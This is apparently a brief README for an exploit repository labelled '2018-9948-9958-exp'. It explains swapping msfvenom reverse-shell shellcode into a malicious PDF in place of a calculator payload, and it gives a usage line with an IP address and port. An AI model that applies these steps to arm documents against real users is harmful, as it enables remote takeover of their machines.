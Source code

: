 ### 2018-9948-9958-exp
- "get_shellcode_from_msf.py" is a python script to get shellcode from msfvenom, then copy the output to the exp.pdf replace the 'calc' shellcode block, and finally it works. Ooooops, it's a tcp reverse shellcode.
- a sample code is like this: python get_shellcode_from_msf.py 192.168.1.79 1234
